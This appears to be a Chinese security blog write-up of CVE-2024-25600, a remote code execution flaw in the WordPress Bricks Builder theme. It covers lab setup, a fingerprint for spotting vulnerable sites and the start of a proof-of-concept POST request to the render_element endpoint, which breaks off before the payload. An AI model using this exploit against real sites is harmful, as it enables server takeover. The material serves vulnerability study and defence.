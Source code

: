 #  CVE-2024-25600：WordPress Bricks Builder RCE   
原创 良夜  Timeline Sec   2024-11-15 19:03  
  
>   
> 关注我们❤️，添加星标🌟，一起学安全！作者：良夜@Timeline Sec 本文字数：3434阅读时长：3～5mins声明：仅供学习参考使用，请勿用作违法用途，否则后果自负  
  
## 0x01 简介  
  
Bricks Builder 是一个 WordPress 页面构建插件，它的主要功能是让用户可以通过直观的界面和拖放操作来创建自定义的网页布局。使用 Bricks Builder，用户可以轻松地设计和定制其网站的页面，而无需编写任何代码。  
## 0x02 漏洞概述  
  
**漏洞编号：CVE-2024-25600**  
  
WordPress配置安装的Brick Builder主题存在远程代码漏洞。攻击者可通过/wp-json/bricks/v1/render_element 接口中直接提交代码即可在目标执行任意代码，进而控制目标服务器。  
## 0x03 影响版本  
  
Brick Builder <= 1.9.6  
## 0x04 环境搭建  
  
本地搭建如下：（比较简单不详细叙述了）  
  
下载Bricks Builder：  
  
参考 https://www.pythonthree.com/free-download-bricks-builder/  
  
下载WordPress下载地址：https://github.com/WordPress/WordPress/releases/tag/6.4.3  
  
安装一个phpstudy，并启动，将下载的wordpress解压到WWW目录下  
  
访问 http://localhost/WordPress-6.4.3/ 自动跳转到安装界面，设置数据库，在这注意要手动新建一个数据库。  
  
安装好后登录后台，上传主题并安装启用  
## 0x05 漏洞利用  
  
指纹特征：body中包含/wp-content/themes/bricks/  
  
首先需要得到 nonce，直接访问网站即可  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsjqibWS3OqfuqpicqVMkaZmEE15pGWdLJfws0eSFTzYOo7NwKJibJOT5ksT677uYNu0nrnVicFECoPTnQ/640?wx_fmt=png&from=appmsg "")  
  
然后就可以构造POC,执行代码了  
```
POST /WordPress-6.4.3/wp-json/bricks/v1/render_element HTTP/1.1
Host: localhost
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 295

{
"postId":"1",
"nonce":"69d17dbdfd",
"element":{
    "name":"container",
    "settings":{
        "hasLoop":"",
```